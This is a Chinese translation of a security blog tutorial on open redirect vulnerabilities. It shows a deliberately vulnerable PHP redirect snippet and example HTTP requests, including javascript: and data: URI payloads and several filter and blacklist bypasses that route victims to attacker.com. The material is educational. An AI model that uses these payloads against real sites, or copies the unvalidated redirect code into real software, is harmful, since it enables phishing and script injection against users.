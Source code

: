 # CVV #2:开放重定向

> 原文：<https://infosecwriteups.com/cvv-2-open-redirect-213555765607?source=collection_archive---------6----------------------->

这是一个关于“常见漏洞载体”和相关利用方法的简短系列。

![](img/940f8de98ff5838c96c118162cf57d11.png)

低垂的水果更容易采集

如果你没有读过我关于本地文件包含的第一篇文章(CVV #1)，那就来吧！今天是关于**开放重定向**(简称:“OR”)。

根据 [OWASP-Project](https://www.owasp.org/index.php/Unvalidated_Redirects_and_Forwards_Cheat_Sheet) 的说法，开放重定向是一种漏洞，定义如下:

> *[…]当 web 应用程序接受不可信的输入，这可能导致 web 应用程序将请求重定向到不可信输入中包含的 URL。通过修改恶意网站的不可信 URL 输入，攻击者可以成功发起网络钓鱼诈骗并窃取用户凭据[…]*

让我们看一个用 PHP 编写的 web 应用程序的简单例子，它容易受到“或”的攻击:

```
<?php 
   header('Location: ' . $_GET['url']);
   die(); // this is sometimes missing which can leads to an authentication bypass
?>
```

提交以下 HTTP 请求后:

```
GET vulnerable.php?url=https://si9int.sh HTTP/1.1
Host: victim.com
```

我们应该得到一个服务器端重定向(HTTP 301HTTP 307)到通过*URL*-参数定义的 URL。

以下内容描述了基于我目前知识的方法，这些方法在利用“或”问题时可能有用，例如扩展到[跨站点脚本](https://en.wikipedia.org/wiki/Cross-site_scripting)。

感谢: *bobrov、filedescriptor、cujanovic、security diots*为本主题贡献他们的知识。

**[1]执行 JavaScript**

得益于 *javascript-URI* 和*数据-URI* 包装器，利用“或”漏洞执行 JS 是可能的。这可以通过重定向到指定的包装器来实现(注意，只有当应用程序通过将锚标签注入到当前的 [DOM](https://en.wikipedia.org/wiki/Document_Object_Model) 来重定向客户端时，这才有效)。

```
GET vulnerable.php?url=javascript:alert(1) HTTP/1.1
Host: victim.com
---
GET vulnerable.php?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTs8L3NjcmlwdD4NCg== HTTP/1.1
Host: victim.com
```

**[2]绕过关键词过滤**

如果一个域过滤一个特定的关键字(主要是域名本身)，可以通过使用关键字作为注入域(子域或第*n*-lvl-domain)的一部分来绕过它。

```
GET vulnerable.php?url=victim.com.attacker.com HTTP/1.1
Host: victim.com
```

使用“@”符号也可以成功利用漏洞。浏览器会将所有在 *AT_SIGN* 之后的内容重定向到指定的域(这要感谢大多数现代浏览器中包含的登录 URI 模式；[试试看](http://user@si9int.sh)。

```
GET vulnerable.php?url=victim.com@attacker.com HTTP/1.1
Host: victim.com
```

第三种方法是在您自己的服务器上创建一个名为 vulnerable domain 的文件夹，并将其用作有效负载，希望易受攻击的脚本会忽略 URL 的第一个/*n*部分。

```
GET vulnerable.php?url=attacker.com/victim.com HTTP/1.1
Host: victim.com
```

当应用程序需要特定的路径内扩展时，这也很有用。在这种情况下，我们可以创建一个名为所需扩展名的文件夹，并将其传递给 vulnerable 参数。

```
GET vulnerable.php?url=attacker.com/.jpg HTTP/1.1
Host: victim.com
```

**【3】绕过黑名单关键词**

可能有些应用程序已经过滤了某些关键字的易受攻击参数，因此如果某些黑名单中的关键字被设置为 value，则不会进行重定向。以下是如何绕过这些关键词的列表:

*   **a.)** 通过使用黑名单中的字符/关键字的双 URL 或三 URL 编码版本，可以绕过大多数过滤器
*   **b.)** 点例如`victim.com`，旁路:`https://attacker%E3%80%82com`，(.URL 编码)，一个[中文分隔符](https://en.wiktionary.org/wiki/%E3%80%82)哪个浏览器处理的方式和点一样
*   **c.)** HTTP-或 HTTPS-关键字例如`https://victim.com`，bypass: `//attacker.com`，两个斜线足以让浏览器识别 HTTP/HTTPS 协议的使用
*   **d.)** 斜线如`https://victim.com`，旁路:`https:attacker.com`，现代浏览器的自动纠错导致了这种行为
*   **e.)** 斜线和 HTTP/HTTPS-关键词，绕过:`\/\/attacker.com`，原因同上

我希望你学到了一些新东西。如果您发现任何内容相关或语法错误或有任何补充，请写下评论。